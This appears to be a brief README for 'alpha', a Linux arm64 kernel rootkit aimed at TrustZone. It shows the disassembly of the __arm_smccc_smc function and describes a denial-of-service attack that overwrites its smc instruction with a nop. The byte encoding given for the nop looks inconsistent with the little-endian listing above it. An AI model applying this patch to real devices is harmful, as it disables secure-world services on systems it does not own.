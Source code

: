 # alpha
alpha is a simple kernel rootkit (Linux arm64) to attack the TrustZone. He erases the smc_handle function of the kernel to hook calls to the SMC instruction. It has been tested with OP-TEE but should work with any other TrustZone implementation.

### __arm_smccc_smc (include/linux/arm-smccc.h)   
   
```
03 00 00 d4     smc   #0x0   
e4 03 40 f9     ldr   x4, [sp]   
80 04 00 a9     stp   x0, x1, [x4]   
82 0c 01 a9     stp   x2, x3, [x4,#16]   
e4 07 40 f9     ldr   x4, [sp,#8]   
a4 00 00 b4     cbz   x4, 0x00000028   
89 00 40 f9     ldr   x9, [x4]   
3f 05 00 f1     cmp   x9, #0x1   
41 00 00 54     b.ne  0x00000028   
86 04 00 f9     str   x6, [x4,#8]   
c0 03 5f d6     ret
```   
   
### Basic attack   
   
It's just a DoS attack of the TrustZone. Replace the first instruction of the function:   
```   
03 00 00 d4     smc   #0x0   
```   

With the following instruction:   
```   
d5 03 20 1f     nop      
```   

### More coming...
